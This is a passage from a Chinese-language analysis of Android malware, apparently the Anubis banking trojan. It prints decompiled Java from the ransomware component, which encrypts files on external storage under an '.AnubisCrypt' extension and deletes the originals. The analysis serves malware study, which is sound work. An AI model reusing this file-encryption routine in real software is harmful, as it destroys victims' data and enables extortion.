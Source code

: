 48. **`q(Context context)`**：获取设备唯一标识。

> 作为工具类，b中存着大部分恶意操作供其他代码使用

# 0x3 恶意操作

## 0x0 文件加密解密-wahiuolww

> wocwvy.czyxoxmbauu.slsa.wahiuolww

```java
void a(File file) {
    File[] listFiles;
    FileOutputStream fileOutputStream;
    try {
        for (File file2 : file.listFiles()) {
            if (file2.isDirectory()) {
                b(file2);
            } else if (file2.isFile()) {
                try {
                    b bVar = this.a;
                    byte[] a = b.a(file2);
                    if (this.b.equals("crypt")) {
                        if (!file2.getPath().contains(".AnubisCrypt")) {
                            byte[] a2 = this.a.a(a, this.c);
                            fileOutputStream = new FileOutputStream(file2.getPath() + ".AnubisCrypt", true);
                            fileOutputStream.write(a2);
                        }
                    } else if (this.b.equals("decrypt") && file2.getPath().contains(".AnubisCrypt")) {
                        byte[] b = this.a.b(a, this.c);
                        fileOutputStream = new FileOutputStream(file2.getPath().replace(".AnubisCrypt", ""), true);
                        fileOutputStream.write(b);
                    }
                    fileOutputStream.close();
                    file2.delete();
                } catch (Exception unused) {
                }
            }
        }
    } catch (Exception unused2) {
    }
} 


@Override 
protected void onHandleIntent(Intent intent) {
    b bVar;
    String str;
    String str2;
    //获取加密状态、密钥
    this.b = this.a.e(this, "status");
    this.c = this.a.e(this, "key");
    File file = new File("/mnt");
    File file2 = new File("/mount");
    File file3 = new File("/sdcard");
    File file4 = new File("/storage");
    try {
        this.a.a("Cryptolocker", "1");  //a(String,String)最终仅执行getclass()
        //
        a(Environment.getExternalStorageDirectory());
```